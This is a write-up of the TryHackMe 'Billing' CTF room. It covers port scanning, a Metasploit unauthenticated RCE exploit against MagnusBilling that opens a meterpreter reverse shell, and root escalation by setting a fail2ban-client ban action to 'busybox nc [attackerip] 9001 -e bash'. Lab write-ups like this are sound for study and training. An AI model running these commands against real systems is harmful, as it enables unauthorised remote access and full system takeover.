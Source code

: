 ```yaml
---
title: "Billing"
date: 2025-03-10
image: /assets/img/tryhackme/Billing/Billing_image.jpg
description: Writeup of the TryHackMe-CTF Billing
categories: [TryHackMe, Easy]
tags: [linux, metasploit, web, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Platform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Billing</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Some mistakes can be costly.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/billing">https://tryhackme.com/room/billing</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Billing.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.46.219         
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-10 05:13 EST
  Nmap scan report for 10.10.46.219
  Host is up (0.046s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT     STATE SERVICE
  22/tcp   open  ssh
  80/tcp   open  http
  3306/tcp open  mysql
  5038/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 22.38 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,3306,5038 10.10.46.219
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-10 05:14 EST
  Nmap scan report for 10.10.46.219
  Host is up (0.042s latency).

  PORT     STATE SERVICE  VERSION
  22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
  | ssh-hostkey: 
  |   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
  |   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
  |_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
  80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
  | http-robots.txt: 1 disallowed entry 
  |_/mbilling/
  | http-title:             MagnusBilling        
  |_Requested resource was http://10.10.46.219/mbilling/
  |_http-server-header: Apache/2.4.56 (Debian)
  3306/tcp open  mysql    MariaDB (unauthorized)
  5038/tcp open  asterisk Asterisk Call Manager 2.10.6
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds
```
From here I proceeded the analysis port by port.

## Port 80 Analysis

The webserver showed the login page of MagnusBilling, which is an open-source billing system for VoIP-services:

![MagnusBilling login](/assets/img/tryhackme/Billing/thm_billing_1.jpg)

I checked for potential vulnerabilities in `metasploit` and found an interesting exploit:
```bash
msf6 > search MagnusBilling

Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                                  .                .          .      .

```

After loading the module, I set the required options and executed the exploit: 
```bash
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set RHOSTS 10.10.251.160
RHOSTS => 10.10.251.160
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set SRVHOST [attackerip]
SRVHOST => [attackerip]
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > set LHOST [attackerip]
LHOST => [attackerip]
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit

[*] Started reverse TCP handler on 10.21.63.26:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.251.160:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.15 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 10.10.251.160
[+] Deleted lTTlGxPShDz.php
[*] Meterpreter session 1 opened ([attackerip]:4444 -> 10.10.251.160:39784) at 2025-03-08 05:38:44 -0500

meterpreter > 
```

With this initial access, I successfully retrieved the user flag:
```bash
meterpreter > shell
  Process 1750 created.
	Channel 0 created.
whoami
	asterisk
cd /home
ls
	magnus
cd magnus
ls
  Desktop
  Documents
  Downloads
  Music
  Pictures
  Public
  Templates
  Videos
  user.txt
cat user.txt
  THM{[removed]}
```

## Privilege Escalation root

To obtain a more stable shell, I switched to `penelope`:

![Switch to penelope](/assets/img/tryhackme/Billing/thm_billing_2.jpg)

I continued with `sudo -l` and got the following output:
```bash
asterisk@Billing:/home$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

After researching Fail2Ban, I discovered that it is possible to execute Bash commands in addition to network block events. Before I started to missuse this I checked if I can control `fail2ban`:
```bash
asterisk@Billing:/home$ sudo fail2ban-client restart
  Shutdown successful
  Server ready
```

Great! Using this, I misused it with an additional ban-action:
```bash
asterisk@Billing:/var/tmp$ sudo /usr/bin/fail2ban-client set sshd action iptables-multiport actionban "/bin/bash -c 'busybox nc [attackerip] 9001 -e bash'"
```

Finally, I started a listener and triggered this by manually blocking an IP address in the `sshd jail`: 
```bash
asterisk@Billing:/var/tmp$ sudo /usr/bin/fail2ban-client set sshd banip 10.11.12.13
```

I successfully established the connection and retrieved the root flag.:
```bash
$ nc -lvnp 9001                 
listening on [any] 9001 ...
connect to [attackerip] from (UNKNOWN) [10.10.251.160] 47964
whoami
	root
cd /root
ls
	filename
	passwordMysql.log
	root.txt
cat root.txt
	THM{[removed]}
```

solved! :)
